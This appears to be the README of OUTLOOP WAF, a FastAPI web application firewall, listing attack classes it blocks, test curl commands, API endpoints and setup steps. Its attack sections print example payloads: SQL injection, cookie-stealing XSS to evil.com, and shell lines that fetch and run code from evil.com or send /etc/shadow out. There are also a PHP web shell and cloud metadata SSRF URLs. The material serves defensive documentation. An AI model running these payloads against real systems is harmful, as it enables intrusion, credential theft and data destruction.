**Live Status Bar** (always visible at bottom of dashboard):
```
OUTLOOP WAF v1.0.0 | REQ: 00247 | BLOCKED: 00031 | RULES: 57 | GRAVITY: 9.8 m/s² | 12:34:56 UTC
```

---

## Attack Vectors & Protection Mechanisms

### 1. SQL Injection (SQLi) — CWE-89

SQL Injection is the #1 web vulnerability class (OWASP A03:2021). It occurs when user-supplied input is embedded into SQL queries without parameterization, allowing attackers to alter query logic.

**Impact:** Data exfiltration, authentication bypass, database destruction, privilege escalation.

**How Attackers Exploit It:**

```sql
-- Classic authentication bypass
-- Input: username field → admin' --
-- Resulting server query:
SELECT * FROM users WHERE username='admin' --' AND password='anything'
-- The -- comments out the password check entirely

-- UNION-based data extraction
' UNION SELECT username, password, NULL FROM users --

-- Time-based blind SQLi (boolean inference)
'; IF (1=1) WAITFOR DELAY '0:0:5' --

-- Schema enumeration
' UNION SELECT table_name,NULL FROM information_schema.tables --

-- Stacked command execution
'; DROP TABLE users; --

-- Auth bypass variant
" OR 1=1 --
' OR '1'='1
```

**How OUTLOOP Blocks It:**
- 13 SQLi patterns covering UNION SELECT, DROP TABLE, xp_cmdshell, WAITFOR, comment stripping (`--`, `/**/`), and quote-based injection
- Multi-pass decoder catches double-encoded variants like `%27%20OR%20%271%27%3D%271`
- Tautology detection: `OR 1=1`, `OR 'a'='a'` and similar boolean bypasses

**Live Test:**
```bash
curl -i "https://outloop-waf.vercel.app/api/secure/test?payload=' UNION SELECT username, password FROM users --"
# → 403 Forbidden — SQLi-007 CRITICAL
```

---

### 2. Cross-Site Scripting (XSS) — CWE-79

XSS allows attackers to inject client-side scripts into pages viewed by other users.

| Type | Mechanism | Persistence |
|------|-----------|-------------|
| **Reflected** | Payload in URL/param echoed in response | Non-persistent |
| **Stored** | Payload saved in DB, served to all users | Persistent |
| **DOM-based** | Payload processed by JS in browser, never hits server | Client-side |

**How Attackers Exploit It:**

```html
<!-- Script tag injection — cookie theft -->
<script>fetch('https://evil.com/steal?c='+document.cookie)</script>

<!-- Event handler injection with base64-encoded payload -->


<!-- Protocol-based injection -->
<a href="javascript:document.location='//evil.com/?'+document.cookie">Click me</a>

<!-- SVG vector (bypasses naive script-tag filters) -->
<svg onload="alert(1)">

<!-- Data URI injection -->
<iframe src="data:text/html,<script>alert(1)</script>">
```

**How OUTLOOP Blocks It:**
- 13 XSS patterns targeting `<script>` tags, inline event handlers (`onerror=`, `onload=`, `onclick=`), `javascript:` protocol URIs, and `data:text/html` payloads
- Multi-pass decoder catches HTML-entity encoded variants (`&lt;script&gt;`)
- SVG and iframe tag injection detection

**Live Test:**
```bash
curl -i "https://outloop-waf.vercel.app/api/secure/test?payload=<script>alert(document.cookie)</script>"
# → 403 Forbidden — XSS-003 HIGH
```

---

### 3. Remote Code Execution (RCE) — CWE-78

RCE vulnerabilities allow attackers to execute arbitrary OS commands on the server. Often arises from unsafe `eval()`, deserialization, shell command construction, or legacy CGI (Shellshock CVE-2014-6271).

**How Attackers Exploit It:**

```bash
# Shellshock via User-Agent header (CVE-2014-6271)
User-Agent: () { :; }; /bin/bash -c 'id; whoami; cat /etc/passwd'

# Command injection via query parameter
https://example.com/ping?host=127.0.0.1; curl http://evil.com/shell.sh | bash

# Backtick execution
?query=`wget http://evil.com/malware -O /tmp/m && chmod +x /tmp/m && /tmp/m`

# Subshell injection
?input=$(cat /etc/shadow | base64 | curl -d @- https://evil.com)
```

**How OUTLOOP Blocks It:**
- Dedicated RCE rule group: Shellshock function definition pattern `() { :;`, backtick operators, `$()` subshell syntax
- Command injection rules for `;`, `|`, `&&`, `||` combined with known shell commands (`cat`, `wget`, `curl`, `bash`, `sh`)

**Live Test:**
```bash
curl -i "https://outloop-waf.vercel.app/api/secure/test?payload=()%20{%20:;%20};%20/bin/bash%20-i"
# → 403 Forbidden — RCE-001 CRITICAL
```

---

### 4. Path Traversal — CWE-22

Path traversal attacks navigate relative directory paths to access restricted files outside the web root, such as system credentials, configuration files, or private keys.

**How Attackers Exploit It:**

```
# Unix-style traversal to read /etc/passwd
../../../../etc/passwd

# Null byte injection to bypass extension filters
../../../../etc/passwd%00.jpg

# Windows-style traversal
..\..\..\..\windows\system32\cmd.exe

# URL-encoded traversal
%2e%2e%2f%2e%2e%2fetc%2fpasswd

# Double URL-encoded (bypass naive decoders)
%252e%252e%252fetc%252fpasswd
```

**How OUTLOOP Blocks It:**
- 9 path traversal patterns covering `../`, `..\`, URL-encoded (`%2e%2e%2f`), double-encoded (`%252e`), and null-byte injection
- Detection of sensitive path targets: `/etc/passwd`, `/etc/shadow`, `windows/system32`, `.env`, `.git`
- Multi-pass URL decoder normalizes all encoding variants before pattern matching

**Live Test:**
```bash
curl -i "https://outloop-waf.vercel.app/api/secure/test?payload=../../../../etc/passwd"
# → 403 Forbidden — PATH-002 HIGH
```

---

### 5. Server-Side Request Forgery (SSRF) — CWE-918

SSRF coerces the server into making unauthorized requests to internal network locations — particularly dangerous in cloud environments where metadata endpoints can expose credentials and instance roles.

**How Attackers Exploit It:**

```
# AWS EC2 metadata endpoint (credential theft)
http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Google Cloud metadata endpoint
http://metadata.google.internal/computeMetadata/v1/

# Internal network probe (bypassing perimeter firewall)
http://192.168.1.1/admin
http://10.0.0.1:8080/internal-api

# DNS rebinding
http://attacker-controlled-domain.com/ → resolves to 169.254.169.254
```

**How OUTLOOP Blocks It:**
- 7 SSRF/metadata patterns blocking AWS/GCP metadata IPs (`169.254.169.254`, `metadata.google.internal`)
- Private IP range detection: `10.x.x.x`, `172.16.x.x`–`172.31.x.x`, `192.168.x.x`
- Loopback abuse detection: `localhost`, `127.0.0.1`, `::1`

**Live Test:**
```bash
curl -i "https://outloop-waf.vercel.app/api/secure/test?payload=http://169.254.169.254/latest/meta-data/"
# → 403 Forbidden — SSRF-001 HIGH
```

---

### 6. Command Injection — CWE-77

Command injection occurs when user input is passed unsanitized to a system shell, enabling attackers to chain arbitrary OS commands.

**How Attackers Exploit It:**

```bash
# Semicolon chaining
127.0.0.1; cat /etc/shadow

# Pipe to attacker
127.0.0.1 | curl -d "$(cat /etc/passwd)" https://evil.com

# AND/OR chaining
127.0.0.1 && wget http://evil.com/backdoor.sh -O /tmp/b && bash /tmp/b

# Subshell
$(whoami)
`id`
```

**How OUTLOOP Blocks It:**
- 8 command injection patterns covering shell chaining operators: `;`, `|`, `&&`, `||`
- Backtick and `$()` subshell detection
- Shell command signature matching: `cat`, `wget`, `curl`, `whoami`, `id`, `uname`, `ps`, `ls`

**Live Test:**
```bash
curl -i "https://outloop-waf.vercel.app/api/secure/test?payload=\$(whoami)"
# → 403 Forbidden — CMD-001 CRITICAL
```

---

### 7. Local File Inclusion (LFI) — CWE-98

LFI allows attackers to include files from the local filesystem in server responses — often used to read config files, logs, or escalate to RCE via log poisoning.

**How Attackers Exploit It:**

```php
# Direct inclusion of sensitive files
?page=../../../../etc/passwd
?file=../config/database.php

# Log poisoning (inject PHP into access log, then include it)
# Step 1: inject into User-Agent:
User-Agent: <?php system($_GET['cmd']); ?>
# Step 2: include the log:
?page=../../../../var/log/apache2/access.log&cmd=id

# PHP wrapper abuse
?file=php://filter/convert.base64-encode/resource=/etc/passwd
?file=php://input (with POST body containing PHP)
```

**How OUTLOOP Blocks It:**
- 5 LFI patterns targeting `include()`, `require()`, `php://` wrapper schemes, and direct sensitive file references
- Detection of PHP filter chain abuse patterns

---

## Live Testing Commands

Fire these payloads at the secure test route to verify detection in real time:

```bash
# SQL Injection (Expect 403 Forbidden — CRITICAL)
curl -i "https://outloop-waf.vercel.app/api/secure/test?payload=' UNION SELECT username, password FROM users --"

# XSS (Expect 403 Forbidden — HIGH)
curl -i "https://outloop-waf.vercel.app/api/secure/test?payload=<script>alert(document.cookie)</script>"

# Path Traversal (Expect 403 Forbidden — HIGH)
curl -i "https://outloop-waf.vercel.app/api/secure/test?payload=../../../../etc/passwd"

# Command Injection (Expect 403 Forbidden — CRITICAL)
curl -i "https://outloop-waf.vercel.app/api/secure/test?payload=\$(whoami)"

# SSRF — AWS Metadata (Expect 403 Forbidden — HIGH)
curl -i "https://outloop-waf.vercel.app/api/secure/test?payload=http://169.254.169.254/latest/meta-data/"

# Shellshock RCE (Expect 403 Forbidden — CRITICAL)
curl -i "https://outloop-waf.vercel.app/api/secure/test?payload=()%20{%20:;%20};%20/bin/bash%20-i"

# Clean Request (Expect 200 OK)
curl -i "https://outloop-waf.vercel.app/api/secure/test?payload=HelloWAF"
```

---

## Technology Stack

| Technology | Version | Purpose | Why Chosen |
|------------|---------|---------|------------|
| **Python** | 3.9+ | Core WAF runtime | Strong regex support; `re.compile()` for pre-compiled patterns; async I/O via `asyncio` |
| **FastAPI** | 0.109+ | Web framework & API layer | ASGI-native; built-in OpenAPI/Swagger; `Middleware` class for clean request interception |
| **Uvicorn** | 0.27+ | ASGI server | High-performance async server; required by FastAPI for Vercel serverless runtime |
| **Starlette** | 0.36+ | Middleware base | FastAPI's underlying ASGI toolkit; `BaseHTTPMiddleware` used for WAF hook |
| **HTML5 / CSS3** | — | SOC Dashboard frontend | Zero framework overhead; terminal aesthetic with custom CSS variables |
| **Three.js** | r160 | 3D attack globe visualization | WebGL-accelerated particle system for incoming attack animation |
| **Astro** | 3.x | Frontend build tool | Component-based static generation for the documentation/marketing layer |
| **JavaScript (ES2022)** | — | Dashboard interactivity, SSE client | Native `EventSource` API for SSE; `fetch` for REST calls |
| **Pytest** | 7.x | Test framework | 44 tests across health, WAF engine, rate limiting, admin, and route coverage |
| **Vercel** | — | Serverless deployment platform | Zero-config Python serverless functions; edge CDN for static assets |
| **GitHub Actions** | — | CI/CD pipeline | Automated `pytest` run on push; deploy-on-merge to main |

---

## API Documentation

All endpoints are available at `https://outloop-waf.vercel.app`. Interactive documentation: [Swagger UI](https://outloop-waf.vercel.app/api/docs) · [ReDoc](https://outloop-waf.vercel.app/api/redoc)

### Public Endpoints

| Method | Endpoint | Description | Example Response |
|--------|----------|-------------|-----------------|
| `GET` | `/api/health` | Service health check | `{"status": "healthy", "version": "1.0.0", "rules": 57}` |
| `GET` | `/api/ready` | Readiness probe | `{"ready": true, "engine": "loaded"}` |
| `GET` | `/api/metrics` | Traffic counters | `{"total": 1024, "blocked": 312, "allowed": 712, "uptime_s": 3600}` |
| `GET` | `/api/status` | Engine gravity status | `{"gravity": "9.8 m/s²", "engine": "ACTIVE"}` |
| `GET` | `/api/secure/test` | WAF inspection endpoint (sandbox) | `200 {"clean": true}` or `403 {"blocked": true, "rule": "SQLi-007"}` |
| `GET` | `/api/secure/echo` | Echo request headers back | `{"headers": {...}, "waf_status": "clean"}` |
| `GET` | `/api/events/threats` | SSE threat stream | `text/event-stream` — continuous JSON event data |
| `GET` | `/api/docs` | Swagger UI | OpenAPI interactive documentation |
| `GET` | `/api/redoc` | ReDoc UI | Alternative API documentation renderer |

### Admin Endpoints (require `X-Admin-Key` header)

| Method | Endpoint | Description | Request Body |
|--------|----------|-------------|--------------|
| `GET` | `/api/admin/stats` | Detailed engine statistics | *(none)* |
| `GET` | `/api/admin/rules` | Full signature list with regex | *(none)* |
| `POST` | `/api/admin/ban` | Add IP to blocklist | `{"ip": "203.0.113.42", "reason": "Port scan"}` |
| `DELETE` | `/api/admin/ban/{ip}` | Remove IP from blocklist | *(path param)* |
| `GET` | `/api/admin/blocklist` | List all banned IPs | *(none)* |

### Example Requests

```bash
# Health check
curl https://outloop-waf.vercel.app/api/health

# Test a clean payload
curl "https://outloop-waf.vercel.app/api/secure/test?payload=hello+world"
# → 200 {"clean": true, "request_id": "..."}

# Test SQL injection (returns 403)
curl "https://outloop-waf.vercel.app/api/secure/test?payload=%27%20OR%201%3D1%3B--"
# → 403 {"blocked": true, "rule_id": "SQLi-001", "severity": "CRITICAL"}

# Open SSE stream
curl -H "Accept: text/event-stream" https://outloop-waf.vercel.app/api/events/threats

# Admin: ban an IP
curl -X POST https://outloop-waf.vercel.app/api/admin/ban \
  -H "X-Admin-Key: your-admin-key" \
  -H "Content-Type: application/json" \
  -d '{"ip": "203.0.113.42", "reason": "Automated SQLi scanner"}'
```

---

## External Integrations

| Library | Source | Role in Project |
|---------|--------|-----------------|
| **Three.js** | [threejs.org](https://threejs.org) | WebGL 3D globe for live attack visualization on the dashboard hero |
| **FastAPI** | [fastapi.tiangolo.com](https://fastapi.tiangolo.com) | ASGI web framework; automatic OpenAPI schema generation |
| **Starlette** | [starlette.io](https://www.starlette.io) | BaseHTTPMiddleware used for WAF request interception hook |
| **Uvicorn** | [uvicorn.org](https://www.uvicorn.org) | ASGI server runtime; production-ready for Vercel's Python runtime |
| **Pytest** | [pytest.org](https://pytest.org) | Test discovery, fixtures, and assertion framework for 44 test cases |
| **Astro** | [astro.build](https://astro.build) | Static site generator for the `/frontend` documentation layer |

---

## Deployment & Infrastructure

OUTLOOP WAF runs entirely on **Vercel's serverless platform**, with no dedicated servers to manage.

### `vercel.json` Routing

```json
{
  "version": 2,
  "builds": [
    { "src": "api/index.py", "use": "@vercel/python" }
  ],
  "routes": [
    { "src": "/api/(.*)", "dest": "api/index.py" },
    { "src": "/(.*)", "dest": "api/index.py" }
  ]
}
```

### Architecture Advantages

| Property | Benefit |
|----------|---------|
| **Cold start** | ~300ms on first invocation; sub-10ms once warm |
| **Edge PoPs** | 100+ global points of presence — low-latency for international traffic |
| **Auto-scaling** | Handles traffic spikes without configuration |
| **No ops** | Zero servers, patches, or uptime monitoring required |
| **Free tier** | Fully operable on Vercel's hobby plan |

### Environment Variables

```bash
# .env (local development)
WAF_ADMIN_KEY=your-secret-key-here        # X-Admin-Key validation value
ALLOWED_ORIGINS=http://localhost:3000     # Allowed CORS client origins
UPSTASH_REDIS_REST_URL=                   # Optional: Upstash Redis endpoint for persistent stats
UPSTASH_REDIS_REST_TOKEN=                 # Optional: Upstash Redis auth token
RATE_BURST_REQUESTS=20                    # Max requests allowed in the burst window
RATE_BURST_SECONDS=1                      # Burst rate limiter window size
WAF_MODE=enforce                          # enforce | monitor | disabled
LOG_LEVEL=INFO                            # DEBUG | INFO | WARNING | ERROR
```

---

## Getting Started

### Prerequisites

```
Python  ≥ 3.9
Node.js ≥ 18.x  (for Astro frontend only)
pip     ≥ 23.x
```

### 1. Clone the Repository

```bash
git clone https://github.com/obstinix/outloop-waf.git
cd outloop-waf
```

### 2. Set Up Python Environment

```bash
python -m venv venv

# Linux / macOS
source venv/bin/activate

# Windows
venv\Scripts\activate
```

### 3. Install Dependencies

```bash
pip install -r requirements.txt
```

### 4. Configure Environment

```bash
cp .env.example .env
# Edit .env — set your WAF_ADMIN_KEY and preferred settings
```

### 5. Run the Development Server

```bash
python -m uvicorn api.index:app --reload --port 8000
```

### 6. Access the Dashboard

```
SOC Dashboard     →  http://localhost:8000
Swagger API Docs  →  http://localhost:8000/api/docs
ReDoc             →  http://localhost:8000/api/redoc
Health Check      →  http://localhost:8000/api/health
```

### 7. Run the Test Suite

```bash
pytest -v
```

Expected output:

```
tests/test_health.py          ✓  6 passed
tests/test_waf.py             ✓ 23 passed
tests/test_antigravity.py     ✓  3 passed
tests/test_admin.py           ✓  3 passed
tests/test_evasion.py         ✓  passed
tests/test_events.py          ✓  passed
tests/test_metrics.py         ✓  passed
tests/test_rate_limiter.py    ✓  passed
──────────────────────────────────────────
TOTAL                         ✓ 44 passed
```

### 8. Docker Environment

```bash
docker-compose up --build
```

### 9. Deploy to Vercel

```bash
npm install -g vercel
vercel login
vercel --prod
```

> **Note:** Set environment variables in Vercel project dashboard under **Settings → Environment Variables** before deploying.

---

## Project Structure

```
outloop-waf/
├── api/
│   ├── index.py                 # FastAPI application entry point
│   ├── static/
│   │   └── index.html           # SOC Dashboard (Three.js + SSE client)
│   ├── waf/
│   │   ├── middleware.py        # BaseHTTPMiddleware — request interception
│   │   ├── rules.py             # 57 signature definitions (regex + severity)
│   │   ├── engine.py            # Threat analysis core (multi-pass decode + match)
│   │   └── rate_limiter.py      # Sliding-window IP rate limiter
│   ├── routes/
│   │   ├── health.py            # /api/health, /api/ready, /api/metrics
│   │   ├── secure.py            # /api/secure/test, /api/secure/echo
│   │   └── gravity.py           # /api/status (engine status)
│   └── utils/
│       └── logger.py            # Structured JSON logging
├── frontend/                    # Astro documentation layer
├── tests/
│   ├── test_health.py           # 6 health endpoint tests
│   ├── test_waf.py              # 23 WAF engine tests (attack payloads)
│   ├── test_antigravity.py      # 3 route and status tests
│   ├── test_admin.py            # 3 admin endpoint authentication tests
│   ├── test_evasion.py          # Evasion technique tests
│   ├── test_events.py           # SSE stream tests
│   ├── test_metrics.py          # Metrics endpoint tests
│   └── test_rate_limiter.py     # Rate limiter tests
├── .gitignore
├── Dockerfile
├── docker-compose.yml
├── LICENSE                      # MIT License
├── README.md
├── pytest.ini                   # Pytest configuration
├── requirements.txt             # Python dependencies
└── vercel.json                  # Serverless routing configuration
```

---

## Contributing & Bug Reports

Contributions are welcome. Please follow these steps:

### Reporting Bugs or Requesting Features

**Found a bug? Have a feature idea?**

👉 **[Open an Issue](https://github.com/obstinix/outloop-waf/issues/new/choose)**

When filing a bug report, please include:
- Python version and OS
- Steps to reproduce the issue
- Expected vs actual behavior
- Relevant log output or error messages

When requesting a feature, please describe the use case and why it would benefit the project.

### Submitting Pull Requests

1. **Fork** the repository
2. **Create** a feature branch: `git checkout -b feat/your-feature-name`
3. **Write tests** for your changes in the `tests/` directory
4. **Ensure all tests pass**: `pytest -v`
5. **Commit** with conventional commit messages: `git commit -m "feat(waf): add SSRF metadata rule"`
6. **Push** and open a **Pull Request** against `main`

### Adding New WAF Rules

New signatures are added to `api/waf/rules.py`. Each rule must include:

```python
{
    "id": "CATEGORY-NNN",        # e.g. SQLi-014
    "name": "Human readable name",
    "severity": "CRITICAL",       # CRITICAL | HIGH | MEDIUM | LOW
    "pattern": r"your_regex_here",
    "description": "What this detects and why"
}
```

> **Important:** All new patterns must have corresponding pytest tests in `tests/test_waf.py` with at least one positive (blocked) and one negative (clean) test case.

---

## License

```
MIT License

Copyright (c) 2026 obstinix (Piyush Pandey)

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```

See [LICENSE](LICENSE) for the full text.

---

<div align="center">

**OUTLOOP WAF** · Security Engine v1.0.0 · MIT License © 2026 [obstinix](https://github.com/obstinix)

Python · FastAPI · Vercel · Zero-config perimeter protection

[](https://outloop-waf.vercel.app)
[](https://github.com/obstinix/outloop-waf)
[](https://github.com/obstinix/outloop-waf/issues)
[](https://github.com/obstinix/outloop-waf/stargazers)

*Built with intent. Protected with precision.*

</div>
ENDOFREADME


